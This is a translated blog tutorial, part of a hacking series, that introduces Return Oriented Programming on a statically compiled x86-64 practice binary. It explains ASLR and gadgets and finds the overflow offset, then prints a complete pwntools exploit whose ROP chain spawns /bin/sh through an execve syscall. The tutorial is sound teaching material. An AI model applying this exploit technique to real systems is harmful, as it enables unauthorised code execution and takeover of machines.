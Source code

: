 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
status: "translated"
description: "Introduction to Return Oriented Programming (ROP) and practical example."
---
```


> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable[here] (/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :

{{< youtube hmt8M9YLwTg >}}

## Pwn Road, third stop, welcome aboard!

Yesterday, the simple buffer overflow and ret2libc, today, ROP, or Return Oriented Programming, and tomorrow... Tomorrow the conquest of the world!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

I left you yesterday on the ret2libc, which, seen from afar, consists in picking in the libc the functions that interest us the most. Except that this attack is not possible in the case where the program is compiled statically, and hardly feasible if the ASLR is enabled. Today we will discover the ROP that allows us to bypass these protections.

It looks more and more like the cat and mouse game, so... \
Follow the leader cat!

## ASLR and PIC details

Before we start, a little feedback on these sometimes confusing protections.

The ASLR is configured through `/proc/sys/kernel/randomize_va_space`. It can be set to 0=off, 1=on (stack and heap), 2=on (1 + .data). The value 2 being the new standard being adopted, which is already effective for the most part.

The ASLR therefore leaves a whole non-randomized attack surface. So what had to happen happened: attacks using the sections .text, .data, .got, .plt, ...

More information on the different sections and structure of an ELF here: [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

As the ASLR is not sufficient, new protections have been put in place: PIC / PIE (Position Independent Code / Executable). The mainidea is simple... How about we randomize... EVERYTHING?!

ROP works with partial or total ASLR, but is countered by the latest measure...

Following at the next countermeasure! è.é

## Presentation of the technique

Return... Oriented... Programming...

Um um... Programming... With... Return? °^°'

We're going to take advantage of the fact that the .text section of the program is still in the same place to pick up a lot of little pieces of code called gadgets, and assemble them to do our exploit. The exploit is therefore a series of addresses pointing at assembler, so in the absolute, we can do everything with it. The only limit? The gadgets that are available in the program...

Even if we "can do everything", the most common strategy remains to do as in article 1 where we generate a shellcode which, via a syscall, allows us to execute a program of our choice.

An important thing to note here: We need gadgets. Gadgets are code that doesn't move. Libraries are always relocated. So a program based on libraries will have a much smaller attack surface than a program compiled in static that would contain all the code it needs. Also, the larger the program will be and the more complex actions it'll do, the more likely you'll find interesting stuff inside. Capich? Noice!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Now, let's go more into detail about gadgets, shall we?

They must all meet a major criterion: End with a ret instruction.

It is this criterion that makes the attack possible. Indeed, when we control the instruction pointer, we will make it execute a first gadget. When it'll reach the final ret instruction, the previous saved instruction pointer will be restored the execution will continue on the stack (which we just overflowed). But the next address will be the one of the second gadget and so on.

However, if your gadget ends with a ret, but contains instructions that modify the execution flow of the program, it may break your exploit. So no `call`, no `leave`, no `double ret`, no arms, and above all: no chocolate.

Many tools are available to list the gadgets of an executable, such as ROPgadget, Ropper, XRop, ...

## Elaboration of the exploit

The studied binary is downloadable[here](/hacking/pwn_3of4_saperliropette/vuln)

First of all, we look at what we're dealing with: x86-64, compiled in static, full ASLR. Okay!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

You're used to it now, the classic one:

Understand how the program works, find the crash, then the offset!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Here again, we see that we crash on a ret... Do we control RSP? Yes! Offset? 264!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Small reminder, ret has the effect of placing what RSP points to (so the last element of the stack), in RIP. So we have RIP under our control. So... RIP!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

See you soon for even more pwn!
